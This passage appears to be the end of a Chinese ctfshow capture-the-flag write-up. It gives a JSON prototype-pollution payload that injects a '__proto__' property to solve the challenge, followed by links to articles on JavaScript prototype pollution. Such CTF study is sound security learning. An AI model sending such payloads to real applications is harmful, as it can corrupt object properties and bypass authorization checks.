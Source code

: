 传入payload

```plain
{"__proto__":{"ctfshow":"36dboy"}}
```

### 参考文章

[https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)  
[https://xz.aliyun.com/t/12383](https://xz.aliyun.com/t/12383)  
[https://forum.butian.net/share/1631](https://forum.butian.net/share/1631)

